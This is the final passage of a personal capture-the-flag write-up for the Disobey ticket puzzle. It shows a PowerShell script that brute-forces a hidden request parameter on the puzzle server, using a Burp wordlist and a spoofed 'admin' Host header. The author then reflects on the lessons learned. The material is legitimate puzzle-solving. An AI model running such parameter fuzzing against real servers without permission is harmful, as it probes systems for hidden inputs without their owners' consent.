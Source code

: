 ```powershell
[cmdletbinding()]
Param(
	[string]$p,
	[string]$pMethod)
$res = ""
$virhe = ""

$Headers = @{
	Host = "admin"
}

try { 
	$res = Invoke-WebRequest ("http://puzzle.disobey.fi:8021?"+$p+"=GIVE_GIVE_GIVE_ME_MY_TICKET") -UseBasicParsing -Method $pMethod -Headers $Headers
}
catch { 
	$virhe = $_.ErrorDetails
	$res = $_.Exception.Response 
}

$res | % { if($_.RawContentLength -gt 0) { ("Status: " + [int]$_.StatusCode +" | Length: " +$_.RawContentLength) + " | Parameter: "+ $p + " | ErrorDetails: "+$virhe } }
```

By passing the previously used burp-parameter-names list for the script we can find out the missing parameter name.  

```powershell
get-content .\burp-parameter-names.txt | % { .\ps_8021_give_ticket_params.ps1 $_ "GET" }
```

The missing parameter name was data. And by just accessing the http://puzzle.disobey.fi:8021/?data=GIVE_GIVE_GIVE_ME_MY_TICKET we finally get everything solved.

Hooray! We got a "HACKER!" response with a link to the holvi shop to get our hacker ticket.

## Lessons learned

This was actually my first CTF. This was also maybe the most frustrating challenge I have had in years. I learned a lot. Mostly humbleness. I would guess that it took something like 20 hours in total to solve all the pieces. Although a lot of time were spent on waiting for different kind of brute forcing to stop. I was also happy that I was able to do so much with PowerShell although my hacker friends laughed at me and told me to use real tools... 

It was a fun ride and I will look forward toward next years challenge. 


